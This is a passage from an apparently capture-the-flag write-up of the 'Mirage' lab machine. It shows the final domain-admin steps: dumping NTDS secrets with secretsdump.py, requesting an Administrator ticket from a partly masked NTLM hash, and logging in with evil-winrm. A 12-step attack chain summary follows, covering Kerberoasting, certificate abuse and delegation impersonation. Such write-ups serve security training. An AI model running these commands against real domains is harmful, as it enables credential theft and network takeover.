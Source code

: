 ## Final Privilege Escalation: Domain Admin Access

### NTDS Secrets Dump
```bash
# Dump NTDS secrets using the impersonated machine account ticket
secretsdump.py -k -no-pass dc01.mirage.htb
```

### Administrator Access
```bash
# Request TGT for Administrator using extracted NTLM hash
getTGT.py -hashes :7be6d4f3c2b9c0e3560f5a29exxxxxx -dc-ip 10.10.11.78 mirage.htb/Administrator

# Set Administrator ticket
export KRB5CCNAME=Administrator.ccache

# Access as Administrator
evil-winrm -i dc01.mirage.htb -u Administrator -r mirage.htb
```

### Root Flag
Located at `C:\Users\Administrator\Desktop\root.txt`

## Attack Chain Summary

1. **NFS Share Enumeration** → PDF intelligence gathering
2. **DNS Spoofing** → Redirect NATS traffic to rogue server
3. **NATS Credential Interception** → Capture Dev_Account_A credentials
4. **NATS Message Queue Access** → Extract david.jjackson credentials
5. **Kerberoasting** → Crack nathan.aadam password
6. **AutoLogon Discovery** → Find mark.bbond credentials
7. **Account Reactivation** → Enable javier.mmarshall via IT_SUPPORT privileges
8. **GMSA Password Extraction** → Obtain Mirage-Service$ hash
9. **ESC10 Certificate Attack** → Manipulate certificate mappings
10. **RBCD Configuration** → Grant delegation rights to nathan.aadam
11. **S4U2Proxy Impersonation** → Impersonate DC01 machine account
12. **NTDS Dump** → Extract all domain hashes including Administrator

